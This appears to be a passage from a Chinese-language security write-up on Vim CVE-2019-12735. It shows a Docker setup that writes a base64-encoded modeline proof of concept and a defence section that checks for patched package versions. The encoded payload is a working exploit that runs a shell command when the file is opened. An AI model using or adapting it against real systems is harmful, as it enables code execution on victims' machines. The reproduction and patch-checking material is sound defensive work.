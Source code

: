 ```shell
$ make && make install
$ cd bin
$ gdb ./vim

```



#### Docker复现环境搭建

可以通过Docker快速搭建poc复现环境

```shell
$ ls
Dockerfile
$ cat Dockerfile
From ubuntu:16.04
RUN set -e -x ;\
    apt update ;\
    apt-get install -y vim-runtime=2:7.4.1689-3ubuntu1 ;\
    apt-get install -y vim-common=2:7.4.1689-3ubuntu1 ;\
    apt-get install -y vim=2:7.4.1689-3ubuntu1 ;\
    echo "OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > /root/poc.txt 

$ sudo docker build -t vim-cve-2019-12735 .
$ sudo docker run -it vim-cve-2019-12735 /bin/bash
echo -e "set modeline\nset modelines=5" > ~/.vimrc 
cd root
vim poc.txt


```



### 漏洞防护

#### package版本检查

- 查看可安装的Vim版本

```shell
# 查看可安装的Vim版本
$ apt-cache policy vim
vim:
  Installed: (none)
  Candidate: 2:7.4.1689-3ubuntu1.4
  Version table:
     2:7.4.1689-3ubuntu1.4 500
        500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial-updates/main amd64 Packages
        500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial-security/main amd64 Packages
     2:7.4.1689-3ubuntu1 500
        500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial/main amd64 Packages

# 从Vim包的changelog中获取修复漏洞的版本号 2:7.4.1689-3ubuntu1.3
$ cat vim_changelog.txt |grep CVE-2019-12735 -C 10
...
vim (2:7.4.1689-3ubuntu1.3) xenial-security; urgency=medium

  * SECURITY UPDATE: Arbitrary code execution
    - debian/patches/CVE-2019-12735.patch: disallow
      sourcing a file in the sandbox in src/getchar.c
    - CVE-2019-12735
  * SECURITY UPDATE: Buffer overflow
    - debian/patches/CVE-2017-5953.patch: check for an
      invalid length in order to avoid a overflow in
```